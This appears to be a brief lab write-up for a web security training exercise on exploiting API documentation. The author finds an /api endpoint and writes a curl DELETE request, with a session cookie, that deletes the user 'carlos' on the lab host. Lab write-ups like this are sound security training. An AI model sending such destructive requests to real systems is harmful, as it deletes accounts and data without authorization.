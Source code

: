 Title: Exploiting an API endpoint using documentation

I decided to add `/api` to the URL

![image](https://github.com/user-attachments/assets/588f2c93-338c-4902-a8b6-15faaca6f57e)

I've created curl command to request API to delete carlos user according to the documentation:
`curl -X DELETE "https://0a6d0079032c150ea5208c2900310091.web-security-academy.net/api/user/carlos" -b "session=fwigVDzade1B3A9PmEeIftl0iqhjnDpg"`

![image](https://github.com/user-attachments/assets/654c8c91-575d-49ca-b67b-455baac03ba6)
